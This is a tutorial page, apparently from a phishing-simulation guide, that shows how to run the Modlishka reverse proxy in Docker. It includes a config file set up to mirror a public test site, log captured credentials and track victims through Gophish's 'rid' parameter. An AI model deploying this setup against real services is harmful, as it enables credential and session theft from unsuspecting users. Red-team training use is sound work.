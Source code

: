 +++
title = "Modlishka"
weight = 65
+++

### Modlishka

Modlishka is an amazing tool that can mirror a website on the fly, rewriting links to ensure the site functions. This allows us to essentially MitM connections to our targeted service from a domain we control.

Lets get a checkout of Modlishka and get things setup to be run in docker.

```bash
mkdir ~/Desktop/op/docker/modlishka
cd ~/Desktop/op/docker/modlishka
mkdir modlishka-data
touch modlishka-data/config.json
git clone https://github.com/Stage2Sec/Modlishka.git
cd Modlishka
cp extra/docker/* .
```

Modlishka can take command line arguments or a configuration file. We are opting to use the configuration file. Lets add the following to `~/Desktop/op/docker/modlishka/modlishka-data/config.json`

```json
{
  "proxyDomain": "modlishka.docker",
  "target": "testphp.vulnweb.com",
  "trackingCookie": "iamadumbcookie",
  "trackingParam": "rid",
  "controlCreds": "phisherman:phisherpass",
  "controlURL": "livewell",
  "terminateRedirectUrl": "",
  "terminateTriggers": "/nowhere",
  "allowSecureCookies": true,
  "listeningAddress": "0.0.0.0",
  "targetResources": "",
  "jsRules": "",
  "jsReflectParam": "reflect",
  "proxyAddress": "",
  "forceHTTPS": false,
  "forceHTTP": false,
  "dynamicMode": false,
  "debug": true,
  "logPostOnly": false,
  "disableSecurity": false,
  "log": "/data/creds.log",
  "plugins": "all",
  "cert": "",
  "certKey": "",
  "certPool": "",
  "rules": "",
  "credParams": ""
}
```

The `trackingParam` value is what Modlishka uses to determine what visits belong to what users, we'll map this to `rid` since that is what Gophish uses by default.

Now we can add Modlishka to our docker compose services.

```yml
  modlishka:
    build:
      context: "modlishka/Modlishka/"
    entrypoint: /bin/proxy
    command: -config /data/config.json
    container_name: modlishka
    environment:
      - VIRTUAL_HOST=modlishka.docker
    volumes:
      - "./modlishka/modlishka-data:/data"
```

Lets test it out. Lets stop docker compose and restart it:

```bash
sudo docker compose up
```

Now open [http://modlishka.docker/](http://modlishka.docker/). We should see the Accunetix test site being hosted from our fake domain.

![Modlishka Accunetix Test Site](/static/how-to-phishing/modlishka-accunetix-test-site.png)